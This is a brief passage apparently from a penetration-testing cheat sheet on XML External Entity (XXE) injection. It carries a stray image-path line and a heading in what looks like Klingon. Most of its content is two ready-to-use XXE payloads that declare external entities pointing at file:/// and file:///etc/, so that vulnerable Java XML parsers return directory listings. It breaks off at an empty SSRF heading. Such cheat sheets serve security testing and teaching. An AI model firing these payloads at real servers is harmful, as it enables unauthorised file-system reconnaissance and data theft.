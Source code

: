 ### qachHa'wI' qonwI'

**Java** based applications it might be possible to **list the contents of a directory** via XXE with a payload like (just asking for the directory instead of the file):
```xml
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```
### SSRF
